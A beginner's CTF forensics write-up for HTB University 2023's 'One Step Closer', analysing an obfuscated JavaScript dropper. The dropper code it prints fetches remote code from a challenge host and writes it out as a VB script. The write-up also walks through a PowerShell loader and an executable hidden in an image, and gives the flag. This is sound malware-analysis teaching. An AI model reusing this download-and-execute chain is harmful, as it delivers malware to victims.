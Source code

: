 # Forensics - One Step Closer

I'm new to CTFs/write-ups in general so I'll start HTB University 2023: Brains & Bytes write up with the hardest challenge I completed.

We are presented with the prompt:

>Tasked with defending the antidote's research, a diverse group of students united against a relentless cyber onslaught. As codes clashed and defenses were tested, their collective effort stood as humanity's beacon, 
inching closer to safeguarding the research for the cure with every thwarted attack. A stealthy attack might have penetrated their defenses. Along with the Hackster's University students, analyze the provided file so you can detect this attack in the future.

and the "helpful" file given to me was [vaccine.js](./vaccine.js)

The first thing I did was use `file` on vaccine.js and see `vaccine.js: ASCII text, with very long lines` nothing out of sorts beyond the very long lines hinting at the soon to come unpleasantness of vaccine.js

Opening the file in a text editor I am presented with ~50 or so lines of javascript that has been obfuscated somewhat by very long nonsensical variable names. The program appears to create some Web Programming/Windows objects, connect to a website to get malicious code that it then writes to a file as a VB script and executes.

I have never used/read JavaScript of any kind really before today but skimming the file these lines seem to be the ones most important for the challange:

```javascript
lOLMCBgGDMolnlotrwOCsILGbKwBtzwvlYFqZdGLMqDxTrcBnpLiTUBqFfekJSDzoSURpLfjiRFSkUbDiScOejegcwcjNbnqGNXuTbtsxWGWvICjWnbUbbSrdUVFqffbkvjTgFhvQddrraBIrYWfNFerCZkSxFapZwPgmIRIyaedLHpBnOvnVBXwzWPxOQJgZModJeUo.open("GET", "http://infected.human.htb/d/BKtQR", false);
lOLMCBgGDMolnlotrwOCsILGbKwBtzwvlYFqZdGLMqDxTrcBnpLiTUBqFfekJSDzoSURpLfjiRFSkUbDiScOejegcwcjNbnqGNXuTbtsxWGWvICjWnbUbbSrdUVFqffbkvjTgFhvQddrraBIrYWfNFerCZkSxFapZwPgmIRIyaedLHpBnOvnVBXwzWPxOQJgZModJeUo.send();
if (lOLMCBgGDMolnlotrwOCsILGbKwBtzwvlYFqZdGLMqDxTrcBnpLiTUBqFfekJSDzoSURpLfjiRFSkUbDiScOejegcwcjNbnqGNXuTbtsxWGWvICjWnbUbbSrdUVFqffbkvjTgFhvQddrraBIrYWfNFerCZkSxFapZwPgmIRIyaedLHpBnOvnVBXwzWPxOQJgZModJeUo.status === 200) {
    var scriptText = lOLMCBgGDMolnlotrwOCsILGbKwBtzwvlYFqZdGLMqDxTrcBnpLiTUBqFfekJSDzoSURpLfjiRFSkUbDiScOejegcwcjNbnqGNXuTbtsxWGWvICjWnbUbbSrdUVFqffbkvjTgFhvQddrraBIrYWfNFerCZkSxFapZwPgmIRIyaedLHpBnOvnVBXwzWPxOQJgZModJeUo.responseText;
    var niyXKljCzNIENaWUxwYBODsAbUBFKCJJDbfyisBKTJpULtjrXSJIFBuGWkcmuhgDVdoSEMJPHvMzQiawcsBNhsfKbJlyQjzKLgnECDbAprhNSnXpNJwbwMQZWzJFAaxCQavQsDuRRIYXARrTgOjQgNHKgerFZvrghSUylvwuvszeCUHWvaOxTjgJDUzNCjCHYBnfbGOX = JzmzxutRESvvBNHRMgpQhJAmcuQNznBjwAbLtjLBPxoSGrvUCnwREryDvVBastJacHxICmpgOWJgUwSRXRwqAfFBpuXfuvQKeSHGMmiEVLNOXDrsiBQmKtBgrFvFnOEJvhaUPRsHWHJXFQABJnHSqYrABIaNvQjFElrbSrEIiGzCJnSHUlYQEbKNziGHlMlUiowWRPGw.CreateTextFile(iQXNrUYfNRSDeYTqnnkAIHwOoiXzYicXoPIsDDsvvMnUvRWDdAoPhJQODSZHHiYLhONKLMuCrHuXfnbBOfSXYQRqtlzvJanjlYDvJPkIZzBBxzIPXbVvzIiVfxtXKEUaPQjQShbHdYcntUkfCfqOYGuzAbsGwzJAUvAZLujabnpPtDdTlZeepJmpUIpLJifXCeTPLhbi, true);
    niyXKljCzNIENaWUxwYBODsAbUBFKCJJDbfyisBKTJpULtjrXSJIFBuGWkcmuhgDVdoSEMJPHvMzQiawcsBNhsfKbJlyQjzKLgnECDbAprhNSnXpNJwbwMQZWzJFAaxCQavQsDuRRIYXARrTgOjQgNHKgerFZvrghSUylvwuvszeCUHWvaOxTjgJDUzNCjCHYBnfbGOX.write(scriptText);
```
I attempted to visit that URL through my browser and even when connceted to the CTF VPN I wasn't able to connect, when I see they have a Docker instance to be spawned and provide the netcat command to connect to it.

For anyone like me who wasn't aware of netcat before:
>Netcat is a featured networking utility which reads and writes data across network connections, using the TCP/IP protocol.
It is designed to be a reliable "back-end" tool that can be used directly or easily driven by other programs and scripts. At the same time, it is a feature-rich network debugging and exploration tool, since it can create almost any kind of connection you would need and has several interesting built-in capabilities.

Using this and some brief googling on how to format/send HTTP GET requests I try 
```
netcat [Docker IP] [Port]
GET infected.human.htb/d/BKtQR
Host:[Docker IP]:[Port]
```
The return from this was a ton of text that overwhelmed my console screen so I ran the above again and sent the output to [vaccineGET.txt](./vaccineGET.txt). Contained therein was ~1000 lines of text obfuscated again as before with incredibly long variable names and massive strings, and numerous repeated sections.

Admittedly this took me a few hours to parse and figure out as there were a couple red herrings/fruitless paths I pursued, but in the end here are the key bits (names abbreviated for readability):

>ceihQq[more characters]  = [Base64 string & var1 & var 2 & var1]
>
>ceihQq = Repalce(ceihQq, var1 + var2 + var1, "P")

This variable is assigned a series of what appear to be either random characters or Base64 encoded strings that are concatenated with 2 variables in the form of '& var1 & var2 & var1' to form one greater string. My first assumption was to decode the various base64 strings which showed the word zombie repeating and not much else.

Taking the second line and replacing all the concats with the letter P, I now had the [ceihQq string](./secondstring.txt) constructed

Moving on the remainder of the file was made up of repeating fragments that didn't seem to have any meaning as well as the following:

>tomq[many characters] = "'$Codigo = ''" & ceihQq & "''"
>
>tomq = tomq & (series of StrReverse() strings)
>
>Numerous tomq = tomq & [100+ character strings] x ~860
>
>tomq = Replace(tomq, [Long string pattern], [Single Character] x5

Now I had the initial string for tomq and ceihQq, from here I ripped the 800+ lines of tomq concats and dumped them into a [text file](./strings.txt)  and used some [python](./decode.py) to process all of the text manipulation to see:

```python
f = open('strings.txt')
tomqString = ';$OWjuxd=[system.Text.enconding]::Unicdode.GetString'
for line in f:
    line = line[line.index('"')+1:-2]
    tomqString += line
f.close()
tomqString = tomqString.replace("TQIJoIsDKygFhOhIUsFhmYGpMtHYXYriuBkzrHlGxHgtwOVBcJpaoSYXwYihoBDwDRSCDEGplfmoDjPrgYmdejlOxRRTwXXqUxtEpkdbzFGZtRYqCBgefVWmDfUZnbLpaQQTIAMcveTJekTjNZjNfCJawQsxvvTLaqAKZUciNlCQgVQFoKfnXYUTpOaNcbqsaDpdjNnD", "e")
tomqString = tomqString.replace("YdiovnqyjTDXTaRYzrOrPtPSPEkGydtHpsDzuMmtvwWDgfonHmlbiWofBzfzWwPCyghETBLJtSXhZTteJymwidWxlLmZRoJmxzHcFtMNHFLqYxcpgFpHeIhwiWILHovZEyZuwgHbTGwMVrwwjpWojiuZPXGPnkWzSsIhWOckYJSLGuGYaBQbdomrjcmnDFZVNWqVGjwx", "o")
tomqString = tomqString.replace("ZjJMuHOyfLrFRZQLRAMejVORkrLmnSCXRqVNBLINqTtavYGXNKmWkKgLUKpRuknZoStcKiPTtlSLTzbLLKnqBLvCxwwfYDUEJVRbZAqnPXJFfwKgaKoaTyXvWlktaXauDNHvgmoqbgdjOoBAwieAxhmIQTQGWVjowvkJpSMpEPnfitrQGRfXaVLxUPAmLRGwRAEgjqTg", "s")
tomqString = tomqString.replace("SjnKkClLMbtbUbEphNmdQTEXfhFHyXgQvKXvohDxuaGQdsTVSnrqEPEsLAdRQxDbDqFawzwRYThIFGZFjDIAEWMnWgxyLATxLKfXLJGtQgEqlXlrEBLbufduqlrgvcKaQAuxxmISiInqdFxetxSvuwcnvTQZlRnsnrezMZamRBgFTQGJcmEpKQISyYXRLVbdBQEdwdle", "t")
tomqString = tomqString.replace("VXIxBYQSKDryEAULIfGtTdegkaavJdWnPtXZlxmbyRZbRztkgJXWSKYsPfdAvLjUlqQqikfohaKubLssSrhTyIatsqjlfjIBXVfmwFkVqYIyCtYmjprSExKIzpcAdoVBTPRwuxasqmXvYvnHQlXgZBCYBqolLMBaNbIspDogrWvPdQlBBtHAGkUozkbMEJZIHTuiLIxX", "a")
tomqString = tomqString.replace("tomqOXAFzrtBfQNTWGTuDgkLdYgzpoJtKGfuDsVESyJFHtcTuIutPkyuVQpwGLbFvLzIXmwguYvYDQgGkwihbveHvvcwfRqtjiREeQFyWwImwPIYWQUCUkxpKztLmHwNlIJgvNGzLQmRPuWNmhjWkXYLnDNfNpXwZwmVMhIMMViCmFVUKhHgGZowKYdAuCBFCwdFvnAC", "A")
print(tomqString)

codigoString = [Long ceihQq string above]
codigoString = codigoString.replace('em9tYmllc', 'A')
print(codigoString)
```
>;$OWjuxd=[system.Text.enconding]::Unicdode.GetString([system.Convert]::Frombase64string($codigo.replace(''em9tYmllc'',''A'')));

Adding that to the python file above and running the replace function gave a Base64 string that when decoded returned a URL for a jpeg and information about retrieving a base64 flag string to decode and load as malware to execute.

Using netcat as before to get the image file and continuing the forensics process running file on flag.jpg returned that it was a PNG file actually! Binwalk didn't return anything notable/interesting.

However when running strings on flag.jpg I see tacked on to the end of the file was yet another Base64 string. Decoding this and checking with file gives: "PE32+ executable (console) x86-64 Mono/.Net assembly, for MS Windows"

Aha! Finally at the end the malware used by the attacker has been revealed! Running strings on the [malicious .exe](./flag.exe) gives the string: 

>HTB{0n3_St3p_cl0s3r_t0_th3_cur3}

